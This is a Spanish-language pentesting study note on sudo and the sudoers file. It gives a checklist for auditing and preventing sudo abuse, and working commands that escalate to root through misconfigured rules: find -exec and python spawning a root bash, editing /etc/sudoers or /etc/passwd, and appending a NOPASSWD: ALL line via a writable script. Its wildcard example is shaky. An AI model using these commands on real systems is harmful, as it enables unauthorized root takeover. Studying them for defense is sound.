

---
aliases:
  - SuperUser DO
  - Privilegios sudo
tags:
  - linux
  - seguridad
  - privilegios
  - escalada
  - root
created: 2023-08-15
modified: 2023-08-15
Tema: "[[Escalada de Privilegios]]"
---

# 🛡️ Sudo: Análisis y Abuso de Privilegios


> "Con gran poder viene gran responsabilidad... y posibilidades de explotación"

## 📋 Índice

- [[#¿Qué es Sudo?]]
- [[#Configuración de Sudo]]
- [[#Posibles Vectores de Abuso]]
- [[#Cómo Detectar y Prevenir estos Abusos]]
- [[#Comandos Útiles para Verificación]]
- [[#Ejemplo Práctico de Escalada de Privilegios]]
- [[#Referencias y Recursos]]

## 🔍 ¿Qué es Sudo?

> [!info] Definición
> **Sudo** (SuperUser DO) es un programa diseñado para sistemas Unix/Linux que permite a los usuarios ejecutar programas con los privilegios de seguridad de otro usuario, normalmente el superusuario (root).



## ⚙️ Configuración de Sudo

Los privilegios de sudo se configuran en el archivo `/etc/sudoers` o en archivos dentro del directorio `/etc/sudoers.d/`. Esta configuración determina quién puede usar sudo y qué comandos pueden ejecutar.

> [!warning] Advertencia
> Nunca edites directamente el archivo sudoers. Utiliza siempre el comando `visudo` para evitar corromper el archivo.

### Sintaxis Básica del Archivo Sudoers

```bash
usuario ALL=(ALL) NOPASSWD: comando
```

Donde:

| Componente | Descripción |
|------------|-------------|
| `usuario`  | Nombre del usuario con permisos |
| `ALL` (primer) | Host en el que se aplica la regla |
| `(ALL)` | Usuario al que se cambiará (generalmente root) |
| `NOPASSWD:` | Indica que no se requiere contraseña |
| `comando` | Comando específico que puede ejecutar |

**Ejemplo:**
```bash
usuario ALL=(root) NOPASSWD: /usr/bin/apt-get
```

## 🔓 Posibles Vectores de Abuso

> [!tip]
> Para encontrar binarios explotables, consulta siempre [[GTFOBins]] - una extensa biblioteca de técnicas de abuso para binarios comunes.

### 1. Ejecución de Comandos Específicos

> [!example] Escenario
> Supongamos que un usuario tiene permiso para ejecutar un comando específico como root:
> ```
> usuario ALL=(ALL) NOPASSWD: /usr/bin/find
> ```

**Abuso:**
```bash
# El usuario puede usar 'find' para ejecutar comandos arbitrarios
sudo find / -exec /bin/bash \;
```

Este comando inicia una shell con privilegios de root.

### 2. Permisos de Edición de Archivos Sensibles

> [!example] Escenario
> El usuario puede editar cualquier archivo usando vim:
> ```
> usuario ALL=(ALL) NOPASSWD: /usr/bin/vim
> ```

**Abuso:**
```bash
# Editar el archivo sudoers para otorgarse más privilegios
sudo vim /etc/sudoers

# O añadir un usuario al archivo passwd
sudo vim /etc/passwd
```

### 3. Wildcards en la Configuración

> [!example] Escenario
> Configuración con wildcards:
> ```
> usuario ALL=(ALL) NOPASSWD: /bin/chown * /home/usuario/archivo
> ```

**Abuso:**
```bash
# Usar el wildcard para ejecutar comandos adicionales
sudo chown root --reference=/etc/passwd /home/usuario/archivo
```

### 4. Comandos que Pueden Lanzar Shells

> [!example] Escenario
> Usuario con permiso para usar programas que pueden lanzar shells:
> ```
> usuario ALL=(ALL) NOPASSWD: /usr/bin/python
> ```

**Abuso:**
```bash
# Lanzar una shell con privilegios de root mediante Python
sudo python -c 'import os; os.system("/bin/bash")'
```

### 5. Permisos de Sudo sin Contraseña

> [!example] Escenario
> Configuración NOPASSWD para todos los comandos:
> ```
> usuario ALL=(ALL) NOPASSWD: ALL
> ```

**Abuso:**
```bash
# El usuario puede ejecutar cualquier comando como root sin contraseña
sudo su -
```

## 🛡️ Cómo Detectar y Prevenir estos Abusos

- [ ] **Revisión Regular**: Auditar periódicamente el archivo sudoers
- [ ] **Principio de Privilegio Mínimo**: Otorgar solo los privilegios necesarios
- [ ] **Evitar Wildcards**: No usar comodines en la configuración de sudo
- [ ] **Monitoreo**: Implementar sistemas de monitoreo para detectar abusos
- [ ] **Usar sudoreplay**: Para auditar las sesiones de sudo

## 🔧 Comandos Útiles para Verificación

```bash
# Ver tus permisos sudo
sudo -l

# Verificar la sintaxis del archivo sudoers
visudo -c

# Ver quién tiene privilegios sudo en el sistema
grep -r "ALL=(ALL)" /etc/sudoers /etc/sudoers.d/
```

## 🎯 Ejemplo Práctico de Escalada de Privilegios

> [!danger] Escenario de alto riesgo
> Supongamos que tienes permisos para ejecutar un script como root y además puedes modificarlo:
> ```
> usuario ALL=(ALL) NOPASSWD: /scripts/backup.sh
> ```

Si puedes editar este script, podrías:

```bash
# Añadir al final del script
echo 'echo "usuario ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers' >> /scripts/backup.sh

# Ejecutar el script con sudo
sudo /scripts/backup.sh

# Ahora tienes acceso completo a sudo
sudo su
```

## 📚 Referencias y Recursos

> [!note] Recursos relacionados
> - [[Escalada de Privilegios]]
> - [[GTFOBins]]
> - [[Abuso de priviliegios a nivel de SUDOERS]]
> - [[Abuso de privilegios SUID]]
> - [[Deteccion y explotacion de tareas Cron]]
> - [[PATH Hijacking]]

---

## Técnicas de escalada organizadas por tipo

- ### 📝 Configuración
  - [[Abuso de priviliegios a nivel de SUDOERS]]
  - [[PATH Hijacking]]
  - [[Hijacking de bibliotecas]]

- ### 🕒 Programación
  - [[Deteccion y explotacion de tareas Cron]]
  
- ### 🔐 Permisos especiales
  - [[Abuso de privilegios SUID]]
  - [[Capabilities]]

---

#seguridad #linux #sudo #escalada_privilegios #pentesting

[[Escalada de Privilegios]]
